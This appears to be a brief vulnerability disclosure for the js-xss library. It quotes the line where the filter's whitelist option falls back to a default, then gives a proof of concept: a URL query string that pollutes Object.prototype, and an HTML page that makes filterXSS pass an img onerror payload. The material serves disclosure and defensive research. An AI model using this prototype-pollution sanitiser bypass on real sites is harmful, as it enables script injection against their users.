 ## js-xss

URL: https://github.com/leizongmin/js-xss/

### Vulnerable code fragment
https://github.com/leizongmin/js-xss/blob/3cf0ff6f865118bb5759ae9cdead6ae949648e43/lib/xss.js#L84
```js
  options.whiteList = options.whiteList || DEFAULT.whiteList;
```

### PoC

```
?__proto__[whiteList][img][0]=onerror&__proto__[whiteList][img][1]=src
```

```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/js-xss/0.3.3/xss.min.js"></script>
<script>
  Object.prototype.whiteList = {img: ['onerror', 'src']}
</script>
<script>
  document.write(filterXSS('<img src onerror=alert(1)>'))
</script>
```
